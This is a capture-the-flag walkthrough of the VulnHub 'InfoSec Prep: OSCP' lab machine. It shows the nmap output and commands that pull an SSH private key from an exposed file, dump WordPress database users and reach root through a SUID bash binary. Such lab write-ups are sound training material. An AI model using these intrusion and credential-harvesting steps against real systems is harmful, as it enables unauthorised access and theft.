<h1>INFOSEC PREP: OSCP</h1>

Today, we'll be looking at the info sec prep machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/infosec-prep-oscp,508/).

<h2>Nmap</h2>
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A -p- 192.168.88.137
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-26 13:47 EDT
Nmap scan report for 192.168.88.137
Host is up (0.00029s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91ba0dd43905e31355578f1b4690dbe4 (RSA)
|   256 0f35d1a131f2f6aa75e81701e71ed1d5 (ECDSA)
|_  256 aff153ea7b4dd7fad8de0df228fc86d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-title: OSCP Voucher &#8211; Just another WordPress site
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=6/26%Time=6499CF3A%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOp
SF:tions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVers
SF:ionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2
SF:B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fI
SF:nvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")
SF:%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01
SF:\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"
SF:\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY0
SF:00")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOptions
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"
SF:\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1
SF:a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000
SF:")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0
SF:\0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r
SF:(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
MAC Address: 00:0C:29:93:E7:82 (VMware)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=6/26%OT=22%CT=1%CU=31766%PV=Y%DS=1%DC=D%G=Y%M=000C29%T
OS:M=6499CF55%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=2%ISR=FF%TI=Z%CI=Z%II=I%T
OS:S=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=
OS:M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=F
OS:E88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A
OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%
OS:Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=
OS:A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=
OS:Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%
OS:T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.29 ms 192.168.88.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.17 seconds
```

We can see it's only running http and ssh.

Let's use dirsearch to enumerate directories.

From the results of the dirsearch scan, we can see it's running wordpress.



Let's run wpscan for further enumeration.

We found a username: **admin**.



But nothing else special.

Let's check **robots.txt**.



We found an interesting file **secret.txt**.

Looks like it's encoded with base64.



Let's decode it.

```wget 192.168.88.137/secret.txt```

```cat secret.txt | base64 -d```

Looks like we got an ssh private key.

We can use that to login as **oscp** into the machine.



First, we need to put into a file and change it's permissions.

```chmod 600 key```

```ssh oscp@192.168.88.137 -i key```

We got in!



Let's check the wordpress configuration file.

We got the username and password for the mysql database.



```mysql -u wordpress -p ```

We got in!



```show databases;```

```use wordpress;```

```show tables;```

```select * from wp_users```



I tried cracking the password for the user **admin** but I failed.

Let's use linpeas for more local enumeration.

In the SUID section, we can see that we can run bash with root permissions.



Let's just use that to open a root shell.

We can find the command on [gtfobins](https://gtfobins.github.io).



Running that, we became root.



